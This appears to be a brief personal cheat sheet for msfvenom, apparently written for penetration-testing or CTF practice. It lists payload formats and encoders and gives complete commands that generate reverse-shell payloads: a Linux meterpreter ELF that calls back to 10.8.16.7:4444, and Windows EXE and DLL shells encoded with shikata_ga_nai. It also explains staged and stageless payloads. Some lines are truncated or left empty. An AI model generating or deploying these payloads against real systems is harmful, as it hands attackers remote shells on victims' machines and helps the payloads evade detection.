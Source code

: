 https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/
##### Standard usage
`msfvenom -a ARCH -p PAYLOAD -e ENCODER -f FORMAT -o OUTPUT LHOST=IP LPORT=PORT`

##### Important formats
Windows: `dll, exe, exe-service, powershell, msi` (NOTE: make sure to use the correct amount of bits, `64` or `32`, or shells won')
Linux: `elf, bash`
Misc: `python, ruby `

##### Useful encoders
Windows: `x86/shikata_ga_nai, x86/opt_sub`

###### Important payloads
Windows: ``
Linux: 

```
msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.8.16.7 LPORT=4444 // Generate a staged ELF meterpreter reverse shell
```
##### Windows
```
msfvenom -a ARCH -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f EXE -o winshell.exe LHOST=IP LPORT=PORT
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o winshell.dll LHOST=IP LPORT=PORT
```

##### Staged vs stageless
Staged payloads: Small bit of code that connects to the attacker, then downloads an actual payload to the RAM.
Example: `windows/shell/reverse_tcp`

Stageless payloads: Full payload, connects to listener when executed.
Example: `windows/shell_reverse_tcp

